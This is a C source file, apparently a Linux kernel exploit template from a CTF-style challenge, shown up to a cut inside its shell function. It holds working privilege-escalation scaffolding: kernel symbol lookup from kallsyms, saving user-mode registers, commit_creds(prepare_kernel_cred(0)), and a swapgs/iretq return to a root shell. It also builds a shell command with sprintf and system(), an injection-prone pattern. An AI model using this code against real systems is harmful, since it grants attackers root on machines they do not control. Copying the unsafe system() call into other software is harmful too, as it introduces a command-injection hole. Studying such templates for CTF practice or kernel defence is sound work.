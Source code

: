 ```c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/socket.h>

#define KERNCALL __attribute__((regparm(3)))

void* (*prepare_kernel_cred)(void*) KERNCALL = (void*) NULL;
void (*commit_creds)(void*) KERNCALL = (void*) NULL;

unsigned long long original_base = 0xffffffff81000000;
unsigned long long user_cs, user_ss, user_rflags, user_sp;
unsigned long long base_addr, canary;

//----------------- 自定义函数 Start -----------------
//----------------- 自定义函数 End   -----------------

void* get_address(char* address) {
	char str[256];
	char ch;
	char hex_num[256] = {0};
	
	sprintf(str, "cat /tmp/kallsyms | grep '%s' | awk '{print $1}' > .exp_cache", address);
	int ret = system(str);
	
	FILE *fp1 = fopen("./.exp_cache", "r");
	int i = 0;
	while((ch=fgetc(fp1)) != EOF) {
		if(ch == '\n' || ch == 0){ break; }
		hex_num[i ++] = ch;
	}
	fclose(fp1);
	return (void *) strtoull(hex_num, NULL, 16);
}

void save_stat() {
	asm(
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"movq %%rsp, %2;"
		"pushfq;"
		"popq %3;"
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void creds_restore_stat() {
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}

void shell() {
        printf("Successfully root\n");
        char buffer[100];
```